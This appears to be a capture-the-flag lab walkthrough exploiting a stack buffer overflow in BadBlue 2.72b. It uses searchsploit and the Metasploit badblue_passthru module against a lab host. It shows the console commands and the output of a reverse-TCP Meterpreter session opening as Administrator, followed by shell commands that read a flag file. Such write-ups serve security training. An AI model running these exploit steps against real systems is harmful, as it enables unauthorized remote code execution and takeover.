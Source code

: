 > *Stack-based buffer overflow in the PassThru functionality in ext.dll in BadBlue 2.72b and earlier allows remote attackers to execute arbitrary code via a long query string.*

- Search for exploits from [exploit-db.com](https://www.exploit-db.com/exploits/16806) or using a command line tool such as **`searchsploit`**

![exploit-db.com - BadBlue](.gitbook/assets/image-20230225105014570.png)

### [searchsploit](https://www.exploit-db.com/searchsploit)

> **`searchsploit`** - *a command line search tool for Exploit-DB*. A copy of Exploit Database can be used offline.

![searchsploit badblue 2.7](.gitbook/assets/image-20230225105609443.png)

- Use Metasploit to exploit the target using the [PassThru Buffer Overflow module](https://www.rapid7.com/db/modules/exploit/windows/http/badblue_passthru/)

  - *This module exploits a stack buffer overflow in the PassThru functionality in ext.dll in BadBlue 2.72b and earlier.*

> ❗ **Before running an exploit, ALWAYS check its [Source Code](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/windows/http/badblue_passthru.rb)** to understand what it is doing❗

```bash
msfconsole
```

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.28.13
exploit
```

```bash
[*] Started reverse TCP handler on 10.10.24.3:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.2.28.13
[*] Meterpreter session 1 opened (10.10.24.3:4444 -> 10.2.28.13:49330) at 2023-02-25 15:32:52 +0530

meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

- Use [meterpreter](https://www.offsec.com/metasploit-unleashed/about-meterpreter/) commands to find the flag

```bash
shell
cd /
dir
type flag.txt
```

<details><summary>Reveal Flag: 🚩</summary></details>

------


